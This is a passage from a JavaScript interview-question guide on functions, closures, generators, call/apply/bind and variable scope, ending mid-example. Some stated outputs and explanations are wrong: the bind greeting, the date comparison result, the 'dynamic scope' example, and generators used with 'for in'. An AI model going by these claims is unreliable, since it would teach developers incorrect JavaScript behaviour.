The `this` value in these `next()` and `current()` methods reference the global object. Since the `this` value inside the methods to reference the Counter object, it needs to use the regular functions instead

```js
function Counter() {
    this.count = 0;
}

Counter.prototype.next = () => {
    return this.count;
};

Counter.prototype.current = () => {
    return ++this.next;
}
```

**4. Functions that use the arguments object:**

Arrow functions don\'t have the arguments object. Therefore, if a function that uses arguments object, you cannot use the arrow function.

```js
const concat = (separator) => {
    let args = Array.prototype.slice.call(arguments, 1);
    return args.join(separator);
}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-arrow-function-52ny7c?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the properties of function objects in javascript?

**JavaScript function objects** are used to define a piece of JavaScript code. This code can be called within a JavaScript code as and when required.

**Javascript Function Objects Property:**

|Name             |Description                       |
|-----------------|----------------------------------|
|arguments        |An array corresponding to the arguments passed to a function.|
|arguments.callee |Refers the currently executing function.|
|arguments.length |Refers the number of arguments defined for a function.|
|constructor      |Specifies the function that creates an object.|
|length           |The number of arguments defined by the function.|
|prototype        |Allows adding properties to a Function object.|

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a first class function?

In javaScript, functions can be stored as a variable inside an object or an array as well as it can be passed as an argument or be returned by another function. That makes function **first-class function** in JavaScript.

A **first-class function** means functions are treated as values — they can be:

- **Assigned to variables**: `const greet = function() { return "Hello"; }`
- **Passed as arguments**: `arr.map(fn)`
- **Returned from other functions**: `function outer() { return function inner() {} }`
- **Stored in data structures**: `const obj = { fn: () => {} }`

JavaScript fully supports first-class functions, which enables patterns like callbacks, higher-order functions, and closures.

**Example 01:** Assign a function to a variable

```js
const message = function() {
   console.log("Hello World!");
}

message(); // Invoke it using the variable
```

**Example 02:** Pass a function as an Argument

```js
function sayHello() {
   return "Hello, ";
}
function greeting(helloMessage, name) {
  console.log(helloMessage() + name);
}
// Pass `sayHello` as an argument to `greeting` function
greeting(sayHello, "JavaScript!");
```

**Example 03:** Return a function

```js
function sayHello() {
   return function() {
      console.log("Hello!");
   }
}
```

**Example 04:** Using a variable

```js
const sayHello = function() {
   return function() {
      console.log("Hello!");
   }
}
const myFunc = sayHello();
myFunc();
```

**Example 05:** Using double parentheses

```js
function sayHello() {
   return function() {
      console.log("Hello!");
   }
}
sayHello()();
```

We are using double parentheses `()()` to invoke the returned function as well.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-first-class-function-ckck8k?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a higher order function?

A Higher-Order function is a function that receives a function as an argument or returns the function as output.

For example, `Array.prototype.map()`, `Array.prototype.filter()` , `Array.prototype.forEach()` and `Array.prototype.reduce()` are some of the Higher-Order functions in javascript.

**Example 01:** .map()

```js
const array = [10, 20, 30];

const result = array.map(function (item) {
  return item * 2;
});
console.log(result); // [20, 40, 60]
```

**Example 02:** .filter()

```js
const randomNumbers = [4, 11, 42, 14, 39];

const filteredArray = randomNumbers.filter((number) => {
  return number > 15;
});
console.log(filteredArray); // [42, 39]
```

**Example 03:** .forEach()

```js
const numbers = [28, 77, 45];

numbers.forEach((number) => {
  console.log(number);
});
```

**Example 04:** .reduce()

```js
const arrayOfNumbers = [10, 20, 30];

const sum = arrayOfNumbers.reduce((accumulator, currentValue) => {
  return accumulator + currentValue;
});
console.log("Sum: " + sum); // 60
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-higher-order-function-yhbo9v?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a unary function?

Unary function (i.e. monadic) is a function that accepts exactly one argument. It stands for single argument accepted by a function.

```js
// Unary function
const unaryFunction = (number) => number + 10;

console.log(unaryFunction(10)); // 20
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-unary-function-j0h3gh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is currying function?

Currying is the process of taking a function with multiple arguments and turning it into a sequence of functions each with only a single argument.

In other words, when a function, instead of taking all arguments at one time, takes the first one and return a new function that takes the second one and returns a new function which takes the third one, and so forth, until all arguments have been fulfilled.

```js
// Normal function
const add = (a, b, c) => {
  return a + b + c;
};
console.log(add(10, 10, 10)); // 30

// Currying function
const addCurry = (a) => {
  return (b) => {
    return (c) => {
      return a + b + c;
    };
  };
};
console.log(addCurry(20)(20)(20)); // 60
```

*Note: Curried functions are great to improve code re-usability and functional composition.*

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-currying-function-3kq1db?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a pure function?

Pure functions are functions that accept an input and returns a value without modifying any data outside its scope(Side Effects). Its output or return value must depend on the input/arguments and pure functions must return a value.

**Example:** Pure Function

It is a pure function because you always get a Hello `<name>` as output for the `<name>` pass as an input.

```js
// Pure Function

function sayGreeting(name) {
  return `Hello ${name}`;
}

console.log(sayGreeting("World"));
```

**Example:** Not Pure Function

The function\'s output now depends on an outer state called greeting. What if someone changes the value of the greeting variable to `Hola`? It will change the output of the `sayGreeting()` function even when you pass the same input.

```js
let greeting = "Hello";

function sayGreeting(name) {
  return `${greeting} ${name}`;
}
```

A function must pass two tests to be considered **pure**:

* Same inputs always return same outputs
* No side-effects

**Benefits:**

* **Predictable**: It produces a predictable output for the same inputs.
* **Readable**: Anyone reading the function as a standalone unit can understand its purpose completely.
* **Reusable**: Can reuse the function at multiple places of the source code without altering its and the caller\'s behavior.
* **Testable**: We can test it as an independent unit.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is memoization in JavaScript?

Memoization is a programming technique which attempts to increase a function\'s performance by **caching** its previously computed results.  

Each time a memoized function is called, its parameters are used to index the cache. If the data is present, then it can be returned, without executing the entire function. Otherwise the function is executed and then the result is added to the cache.

```js
// Memoized function to Add Number

const memoizedAdd = () => {
  let cache = {};
  return (number) => {
    if (number in cache) {
      console.log('Fetching from cache: ');
      return cache[number];
    }
    else {
      console.log('Calculating result: ');
      let result = number + 10;
      cache[number] = result;
      return result;
    }
  }
}
// returned function from memoizedAdd
const sum = memoizedAdd();

console.log(sum(10)); // Calculating result: 20
console.log(sum(10)); // Fetching from cache: 20
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-memoized-function-kykkp7?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an arguments object?

The arguments object is an Array-like object ( `arguments` ) accessible inside functions that contains the values of the arguments passed to that function.

**Example:**

```js
/**
 * Arguments Object
 */

function sum() {
  let total = 0;
  for (let i = 0, len = arguments.length; i < len; ++i) {
    total += arguments[i];
  }
  return total;
}

sum(10, 20, 30); // returns 60
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-arguments-object-od6s7l?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the way to find the number of parameters expected by a function?

The **length** property indicates the number of parameters expected by the function.

```js
// function.length

function fun1() {}
console.log(fun1.length); // 0

function fun2(arg1, arg2) {}
console.log(fun2.length); // 2
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-function-length-7btkvr?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between Call, Apply and Bind?

**1. Call:** invokes the function and allows you to pass in arguments one by one.

**Example:**

```js
const person = { name: "Sahima Mutti" };

function say(greeting) {
  return `${greeting}, ${this.name}`;
}

// call — invokes immediately, args passed individually
say.call(person, "Hi");    // Hi Sahima Mutti 
```

**2. Apply:** invokes the function and allows you to pass in arguments as an array.

**Example:**

```js
const person = { name: "Sahima Mutti" };

function say(greeting) {
  return `${greeting}, ${this.name}`;
}

// apply — invokes immediately, args passed as array
say.apply(person, ["Hi"]);    // Hi Sahima Mutti 
```

**3. Bind:** returns a new function, allowing you to pass in a this array and any number of arguments.

**Example:**

```js
const person = { name: "Sahima Mutti"};

function say(greeting) {
  return `${greeting}, ${this.name}`;
}

// bind — returns a NEW function, does not invoke immediately
const sayPerson = say.bind(person, "Hello");

sayPerson();    // Hi Sahima Mutti 
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-call-apply-bind-xwenyv?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is bind method in javascript?

The `bind()` method creates a new function, when invoked, has the `this` sets to a provided value. The `bind()` method allows an object to borrow a method from another object without making a copy of that method. This is known as function **borrowing** in JavaScript.

**Example:**

```js
/**
 * bind() function
 */
const person = {
  firstName: "Chhavi",
  lastName: "Goswami",
  fullName: function () {
    return this.firstName + " " + this.lastName;
  }
};

const member = {
  firstName: "Vasuda",
  lastName: "Sahota"
};

let fullName = person.fullName.bind(member);
console.log(fullName()); // Vasuda Sahota
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-bind-gdspfz?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an anonymous function?

An anonymous function is a function without a name. Anonymous functions are commonly assigned to a variable name or used as a callback function.

**Example 01:** Anonymous function

```js
let show = function () {
  console.log("Anonymous function");
};
show();
```

**Example 02:** anonymous functions as arguments

```js
setTimeout(function () {
  console.log("Execute later after 1 second");
}, 1000);
```

**Example 03:** Immediately invoked function execution

```js
const person = {
  firstName: "Ayaan",
  lastName: "Memon"
};

(function () {
  console.log(person.firstName + " " + person.lastName); // Ayaan Memon
})(person);
```

**Example 04:** Arrow functions

```js
let add = (a, b) => a + b;

add(10, 20); // 30
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-anonymous-function-vilo1d?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the difference between `function foo() {}` and `var foo = function() {}`?

**1. Function Declaration:**

Function declarations are evaluated upon entry into the enclosing scope, before any step-by-step code is executed. The function\'s name (`foo`) is added to the enclosing scope.

```js
foo(); // Function Declaration Example!

function foo() {
  console.log("Function Declaration Example!");
}
```

**2. Function Expression:**

Function expressions are evaluated as part of the step-by-step code, at the point where they appear. That one creates a function with no name, which it assigns to the foo variable.

```js
foo(); // TypeError: foo is not a function

var foo = function() {
  console.log(typeof foo); // function
};
console.log(typeof foo);     // undefined
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-function-erlj09?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. When to use function declarations and expressions in JavaScript?

**Function Declarations:**

A declared function is "saved for later use", and will be executed later, when it is invoked (called).

```js
// Function declaration
function add(num1, num2) {
	return num1 + num2;
}
```

function is only declared here. For using it, it must be invoked using function name. e.g add(10, 20);  

**Function Expression:**

A function expression can be stored in a variable:

```js
// Function expression
var add = function (num1, num2) {
	return num1 + num2;
};
```

After a function expression has been stored in a variable, the variable can be used as a function. Functions stored in variables do not need function names. They are always invoked (called) using the variable name.

**Difference:**

* `Function declarations` load before any code is executed while `Function expressions` load only when the interpreter reaches that line of code.
* Similar to the `var` statement, function declarations are hoisted to the top of other code. Function expressions aren\'t hoisted, which allows them to retain a copy of the local variables from the scope where they were defined.  

**Benefits of Function Expressions:**  

There are several different ways that function expressions become more useful than function declarations.

* As closures
* As arguments to other functions
* As Immediately Invoked Function Expressions (IIFE)

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between a method and a function in javascript?

**1. Function:**

A function is a piece of code that is called by name and function itself not associated with any object and not defined inside any object. It can be passed data to operate on (i.e. parameter) and can optionally return value.

**Example:**

```js
// Function 
function message(msg) {
  return msg;
}

// Call the function
message("Welcome to JavaScript");
```

Here, `message()` function call is not associated with `object` hence not invoked through any object.

**2. Method:**

A JavaScript method is a property of an object that contains a function definition. Methods are functions stored as object properties.

**Example:**

```js
// Method
let employee = {
  firstName: "Ajay",
  lastName: "Nagi",
  getName: function () {
    return "Employe Name: " + this.firstName + " " + this.lastName;
  }
};

// Call the method
console.log(employee.getName());
```

Here `employee` is an object and `getName` is a method which is associated with `employee`.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-function-vs-method-rw9dmj?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Function binding?

Function binding ( `.bind()` ) is a method on the prototype of all functions in JavaScript. It allows to create a new function from an existing function, change the new function\'s `this` context, and provide any arguments you want the new function to be called with. The arguments provided to `bind` will precede any arguments that are passed to the new function when it is called.

**Example:**

```js
// Function Binding
const person = {
  firstName: "Nirupama",
  lastName: "Randhawa",
  getName: function () {
    return this.firstName + " " + this.lastName;
  }
};

const member = {
  firstName: "Alisha",
  lastName: "Chhabra"
};

let getName = person.getName.bind(member);
console.log(getName()); // Alisha Chhabra
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-function-binding-od3zjg?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain how `this` works in JavaScript?

The `this` keyword refers to an `object`. Which object depends on how this is being invoked (used or called). The `this` keyword refers to different objects depending on how it is used.

* In an object method, `this` refers to the object.
* Alone, `this` refers to the global object.
* In a function, `this` refers to the global object.
* In a function, in strict mode, `this` is `undefined`.
* In an event, `this` refers to the element that received the event.
* Methods like `call()`, `apply()`, and `bind()` can refer `this` to any object.

**Example:**

```js
// this keyword in object method

const person = {
  firstName: "Nirupama",
  lastName: "Randhawa",
  getName: function () {
    return this.firstName + " " + this.lastName;
  }
};
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is generator in JS?

**Generator-Function:**

A generator-function is defined like a normal function, but whenever it needs to generate a value, it does so with the `yield` keyword rather than `return`. The `yield` statement suspends function\'s execution and sends a value back to caller, but retains enough state to enable function to resume where it is left off. When resumed, the function continues execution immediately after the last `yield` run.

**Syntax:**

```js
function* gen() {
     yield 1;
     yield 2;
     yield 3;
     ...
}
```

**Generator-Object:**

Generator functions return a generator object. Generator objects are used either by calling the next method on the generator object or using the generator object in a "for in" loop.

**Example:**

```js
// Generate Function

function* fun() {
  yield 10;
  yield 20;
  yield 30;
}

// Calling the Generate Function
var gen = fun(); // returns a Generator object (doesn\'t run yet)
gen.next(); // { value: 10, done: false }
gen.next(); // { value: 20, done: false }
gen.next(); // { value: 30, done: false }
gen.next(); // { value: undefined, done: true }
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-generate-function-si7ieh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Compare Async-Await and Generators usage to achive same functionality?

**1. Generators/Yield:**

Generators are objects created by generator functions — functions with an * (asterisk) next to their name. The yield keyword pauses generator function execution and the value of the expression following the yield keyword is returned to the generator\'s caller. It can be thought of as a generator-based version of the return keyword.

```js
// Generator function

const generator = (function* () {
  // waiting for .next()
  const number = yield 5;
  // waiting for .next()
  console.log(number); // => 15
})();

console.log(generator.next()); // => { done: false, value: 5 }
console.log(generator.next(15)); // => { done: true, value: undefined }
```

**2. Async/Await:**

Async keyword is used to define an asynchronous function, which returns a `AsyncFunction` object.

Await keyword is used to pause async function execution until a `Promise` is fulfilled, that is resolved or rejected, and to resume execution of the `async` function after fulfillments. When resumed, the value of the `await` expression is that of the fulfilled `Promise`.

**Key points:**  

1. Await can only be used inside an async function.
2. Functions with the async keyword will always return a promise.
3. Multiple awaits will always run in sequential order under a same function.
4. If a promise resolves normally, then await promisereturns the result. But in case of a rejection it throws the error, just if there were a throw statement at that line.
5. Async function cannot wait for multiple promises at the same time.
6. Performance issues can occur if using await after await as many times one statement doesn\'t depend on the previous one.

```js
// Async/Await

async function asyncFunction() {
  const promise = new Promise((resolve, reject) => {
    setTimeout(() => resolve("resolved!"), 1000);
  });

  const result = await promise;
  // wait till the promise resolves (*)

  console.log(result); // "resolved!"
}

asyncFunction();
```

**Generator and Async-await — Comparison:**  

1. Generator functions/yield and Async functions/await can both be used to write asynchronous code that "waits", which means code that looks as if it was synchronous, even though it really is asynchronous.
2. Generator function are executed yield by yield i.e one yield-expression at a time by its iterator (the next method) where as Async-await, they are executed sequential await by await.
3. Async/await makes it easier to implement a particular use case of Generators.
4. The return value of Generator is always {value: X, done: Boolean} where as for Async function it will always be a promise that will either resolve to the value X or throw an error.
5. Async function can be decomposed into Generator and promise implementation which are good to know stuff.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-generator-async-lhs021?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you compare two date objects?

Two dates can be compared by converting them into numeric values using `date.getTime()` method to correspond to their time. Also,
the relational operators `<`, `<=`, `>`, `>=` can be used to compare JavaScript dates.

However, the equality operators `==`, `!=`, `===`, `!==` cannot be used to compare (the value of) dates because:

* Two distinct objects are never equal for either strict or abstract comparisons.
* An expression comparing Objects is only true if the operands reference the same Object.

**Example:**

```js
// Using getTime()
let d1 = new Date();
let d2 = new Date(d1);

console.log(d1.getTime() === d2.getTime()); // true

// Using '<' and '>'
let d3 = new Date(2022, 10, 31);
let d4 = new Date(2022, 10, 30);

console.log(d3 < d4); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-date-comparison-lu76nj?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are closures?

A closure is the combination of a function and the lexical environment within which that function was declared. i.e, it is an inner function that has access to the outer or enclosing function\'s variables.

Closure is useful in hiding implementation detail in JavaScript. In other words, it can be useful to create private variables or functions.

**1. Lexical Scope**:

In lexical scoping free variables must belong to a parent scope.

**Example:**

```js
/**
 * Lexical Scope
 **/

function init() {
  let name = "JavaScript closures"; // name is a local variable created by init
  function displayName() {
    // displayName() is the inner function, a closure
    console.log(name); // use variable declared in the parent function
  }
  return displayName;
}
init();

var closure = init();
closure();
```

As per the above code, the inner `function displayName()` has access to the variables in the outer `function init()`.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-closures-u4p0pq?file=/src/index.js)**

**2. Dynamic Scope**:

In dynamic scoping free variables must belong to the calling scope

**Example:**

```js
/**
 * Dynamic Scope
 **/

function fun1() {
  console.log(a); // 10
}

function fun2() {
  var a = 20;
  fun1();
}

var a = 10;
fun2();

// Output
10
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-dynamic-scope-fzbitn?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is callback() function in javascript?

A callback function is a function passed into another function as an argument, which is then invoked inside the outer function to complete some kind of routine or action.

```js
// callback() function

function greeting(name) {
  alert('Hello ' + name);
}

function processUserInput(callback) {
  var name = prompt('Please enter your name:');
  callback(name);
}

processUserInput(greeting);
```

The above example is a synchronous callback, as it is executed immediately.

*Note: callbacks are often used to continue code execution after an asynchronous operation has completed — these are called asynchronous callbacks.*.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-callback-lz1qhw?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to avoid callback hell in javascript?

**Callback hell** is a phenomenon that afflicts a JavaScript developer when he tries to execute multiple asynchronous operations one after the other. Some people call it to be the **pyramid of doom**.  

**Example:**

```js
doSomething(param1, param2, function(err, paramx){
    doMore(paramx, function(err, result){
        insertRow(result, function(err){
            yetAnotherOperation(someparameter, function(s){
                somethingElse(function(x){
                });
            });
        });
    });
});
```

**Techniques for avoiding callback hell:**  

* Write comments
* Split functions into smaller functions
* Using Async.js
* Using Promises
* Using Async-Await

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you encode an URL?

The encodeURI() function is used to encode complete URI which has special characters except (`,`, `/`, `?`, `:`, `@`, `&`, `=`, `+`, `$`, `#`) characters.

```js
var uri = 'https://mozilla.org/?x=шеллы';
var encoded = encodeURI(uri);

console.log(encoded); // https://mozilla.org/?x=%D1%88%D0%B5%D0%BB%D0%BB%D1%8B
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you decode an URL?

The decodeURI() function is used to decode a Uniform Resource Identifier (URI) previously created by encodeURI().

```js
var uri = 'https://mozilla.org/?x=шеллы';
var encoded = encodeURI(uri);

console.log(encoded); // https://mozilla.org/?x=%D1%88%D0%B5%D0%BB%D0%BB%D1%8B
try {
  console.log(decodeURI(encoded)); // "https://mozilla.org/?x=шеллы"
} catch(e) { // catches a malformed URI
  console.error(e);
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How function overloading works in JavaScript?

Function overloading refers to the ability to define multiple functions with the same name but with different parameters. In many programming languages, the function to be executed is determined at compile time based on the parameters provided. However, in JavaScript, function overloading does not work in the same way because JavaScript functions can be called with any number and type of arguments.

One way to achieve function overloading in JavaScript is by using conditional statements to determine the appropriate behavior based on the arguments passed to the function.

**Example**

```js
function myFunction() {
  if (arguments.length === 1) {
    console.log("Hello " + arguments[0]);
  } else if (arguments.length === 2) {
    console.log("Hello " + arguments[0] + " and " + arguments[1]);
  } else {
    console.log("Hello world");
  }
}

myFunction(); // output: "Hello world"
myFunction("Alice"); // output: "Hello Alice"
myFunction("Bob", "Charlie"); // output: "Hello Bob and Charlie"
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an IIFE (Immediately Invoked Function Expression)?

An **IIFE** (Immediately Invoked Function Expression) is a JavaScript function that is defined and executed immediately after its creation. It creates a private scope so that variables inside it do not pollute the global scope.

**Syntax:**

```js
(function () {
  // code here
})();

// Arrow function variant
(() => {
  // code here
})();
```

**Example:**

```js
const result = (function () {
  const message = 'Hello from IIFE';
  return message;
})();

console.log(result); // 'Hello from IIFE'
console.log(typeof message); // 'undefined' — private to the IIFE
```

**Use cases:**

* **Avoid global namespace pollution** — keeps variables local
* **Module pattern** — expose only what\'s needed through the return value
* **Initialization code** — logic that runs once and doesn\'t need to be callable later

```js
// Counter using IIFE
const counter = (function () {
  let count = 0;
  return {
    increment() { return ++count; },
    decrement() { return --count; },
    value()     { return count; }
  };
})();

console.log(counter.increment()); // 1
console.log(counter.increment()); // 2
console.log(counter.decrement()); // 1
console.log(counter.value());     // 1
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is recursion in JavaScript?

**Recursion** is a technique in which a function calls itself until it reaches a base case (a condition that stops further calls). Every recursive function must have a base case to avoid infinite loops and stack overflow errors.

**Example 01:** Factorial

```js
function factorial(n) {
  if (n <= 1) return 1;        // base case
  return n * factorial(n - 1); // recursive call
}

console.log(factorial(5)); // 120
console.log(factorial(0)); // 1
```

**Example 02:** Fibonacci

```js
function fibonacci(n) {
  if (n <= 1) return n;
  return fibonacci(n - 1) + fibonacci(n - 2);
}

console.log(fibonacci(7)); // 13
```

**Example 03:** Flatten a nested array

```js
function flattenArray(arr) {
  return arr.reduce((acc, val) =>
    Array.isArray(val) ? acc.concat(flattenArray(val)) : acc.concat(val),
  []);
}

console.log(flattenArray([1, [2, [3, [4]], 5]])); // [1, 2, 3, 4, 5]
```

*Note: For deeply nested structures, iterative solutions with an explicit stack are preferred over recursion to avoid stack-overflow errors.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are nested functions in JavaScript?

A **nested function** is a function defined inside another function. The inner function has access to the outer function\'s variables and parameters through **closure**, but the outer function cannot access the inner function\'s variables.

**Example:**

```js
function outerFunction(outerValue) {
  const outerVar = 'I am outer';

  function innerFunction(innerValue) {
    // inner can access outer\'s scope
    console.log(outerVar);       // 'I am outer'
    console.log(outerValue);     // passed argument
    console.log(innerValue);     // inner argument
  }

  innerFunction('I am inner');
}

outerFunction('hello');
```

**Use case — private helper functions:**

```js
function processOrder(order) {
  function validate(o) {
    return o.quantity > 0 && o.price > 0;
  }

  function calculateTotal(o) {
    return o.quantity * o.price;
  }

  if (!validate(order)) throw new Error('Invalid order');
  return calculateTotal(order);
}

console.log(processOrder({ quantity: 3, price: 15 })); // 45
```

The inner helpers `validate` and `calculateTotal` are private to `processOrder` and not accessible from outside.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are side effects in JavaScript functions?

A **side effect** is any observable change that a function makes to the state outside its own scope — such as modifying a global variable, mutating an argument, writing to the DOM, or making a network request.

**Functions with side effects:**

```js
let count = 0;

function increment() {
  count++; // modifies external state — side effect
}

increment();
console.log(count); // 1
```

**Pure function (no side effects):**

```js
function add(a, b) {
  return a + b; // no external mutation, same input always gives same output
}
```

**Common sources of side effects:**

| Source | Example |
|--------|---------|
| Mutating arguments | `arr.push(item)` inside a function |
| Global state change | Modifying `window` or module-level variables |
| I/O operations | `console.log`, network calls, file writes |
| DOM manipulation | `document.getElementById('x').textContent = '...'` |

**Why it matters:** Functions with side effects are harder to test, reason about, and reuse. Functional programming favors isolating side effects to the edges of a system while keeping the core logic pure.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is point-free style in JavaScript?

**Point-free style** (also called *tacit programming*) is a way of defining functions without explicitly mentioning the arguments they operate on. Instead, functions are composed of other functions using combinators like `map`, `filter`, `reduce`, or a `compose`/`pipe` utility.

**Without point-free:**

```js
const numbers = [1, 2, 3, 4, 5];

// explicitly names the argument n
const doubled = numbers.map(n => n * 2);
```

**With point-free:**

```js
const double = x => x * 2;

// double is passed directly — no explicit argument mentioned
const doubled = numbers.map(double);
```

**More complex example:**

```js
const trim = str => str.trim();
const toUpperCase = str => str.toUpperCase();
const words = str => str.split(' ');

// Point-free pipeline using a pipe utility
const pipe = (...fns) => x => fns.reduce((v, f) => f(v), x);

const process = pipe(trim, toUpperCase, words);

console.log(process('  hello world  ')); // ['HELLO', 'WORLD']
```

Point-free style leads to cleaner, more declarative code but can reduce readability when overused.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is function composition in JavaScript?

**Function composition** is the process of combining two or more functions where the output of one function becomes the input of the next. It is a core concept in functional programming.

**compose** applies functions right-to-left; **pipe** applies them left-to-right.

**compose:**

```js
const compose = (...fns) => x => fns.reduceRight((v, f) => f(v), x);

const add10  = x => x + 10;
const double = x => x * 2;
const square = x => x * x;

// square( double( add10(5) ) ) => square(double(15)) => square(30) => 900
const transform = compose(square, double, add10);
console.log(transform(5)); // 900
```

**pipe (left-to-right):**

```js
const pipe = (...fns) => x => fns.reduce((v, f) => f(v), x);

// add10(5) => double(15) => square(30) => 900
const transform = pipe(add10, double, square);
console.log(transform(5)); // 900
```

**Real-world example:**

```js
const trim       = str => str.trim();
const toLower    = str => str.toLowerCase();
const removeSpaces = str => str.replace(/\s+/g, '-');

const slugify = pipe(trim, toLower, removeSpaces);

console.log(slugify('  Hello World  ')); // 'hello-world'
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>


## L2: Intermediate (Junior-Mid / Developer)

<br>

## # 10. Scope & Closures

<br>

## Q. What is lexical scope in JavaScript, and how does it differ from dynamic scope?

Lexical scope (also called static scope) means that the scope of a variable is determined at **author time** — by where the function is **written** in the source code, not where it is **called** from. JavaScript uses lexical scoping exclusively. When the JavaScript engine (V8) parses the source, it builds a **scope chain** based on the physical nesting of functions and blocks; this chain never changes at runtime.

Dynamic scope, by contrast, resolves variable references based on the **call stack** at runtime. Languages like Bash and early Lisp dialects use dynamic scope. JavaScript has no dynamic scope (though `this` is sometimes confused for it because it is determined by the call site — `this` binding is separate from scope).

**Key rules of lexical scope:**
- Inner functions can access variables declared in outer functions (scope chain lookup).
- Outer functions cannot access variables declared in inner functions.
- The lookup travels outward until the global scope is reached; if not found, `ReferenceError` is thrown (in strict mode) or an implicit global is created (sloppy mode).

```js
// Lexical scope example
const greeting = 'Hello';          // global scope

function outer() {
  const name = 'Alice';            // outer function scope

  function inner() {
    const punctuation = '!';       // inner function scope
    // inner can see: punctuation, name, greeting (chain lookup)
    console.log(`${greeting}, ${name}${punctuation}`);
  }

  inner(); // 'Hello, Alice!'
  // console.log(punctuation); // ReferenceError — outer cannot see inner\'s variables
}

outer();
```

**Real-World Use Case:**

React\'s hook system relies on lexical scope. When you write a custom hook like `useCounter`, the state variables declared inside it are lexically scoped to that hook invocation — they cannot bleed into unrelated components, making stateful logic safely composable and predictable in a large codebase.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the difference between `var`, `let`, and `const` with respect to scope.

| Feature | `var` | `let` | `const` |
|---|---|---|---|
| Scope | Function | Block | Block |
| Hoisted | Yes (as `undefined`) | Yes (TDZ — not initialised) | Yes (TDZ — not initialised) |
| Re-declarable | Yes | No | No |
| Re-assignable | Yes | Yes | No (binding; object contents can mutate) |
| Global property | Creates `window.x` | No | No |

**Block scope** means the variable only exists within the nearest enclosing `{}` — an `if`, `for`, `while`, or plain block. `var` ignores block boundaries and is scoped to the enclosing **function** (or the global object if outside any function).

```js
function demonstrateScope() {
  if (true) {
    var  funcScoped  = 'var';   // hoisted to function top
    let  blockScoped = 'let';   // lives only inside this if-block
    const immutable  = 'const'; // same block scope as let
  }

  console.log(funcScoped);   // 'var'    ✅
  // console.log(blockScoped); // ReferenceError ❌
  // console.log(immutable);   // ReferenceError ❌
}

// Classic var-in-loop bug
for (var i = 0; i < 3; i++) {
  setTimeout(() => console.log('var:', i), 0); // prints 3, 3, 3
}

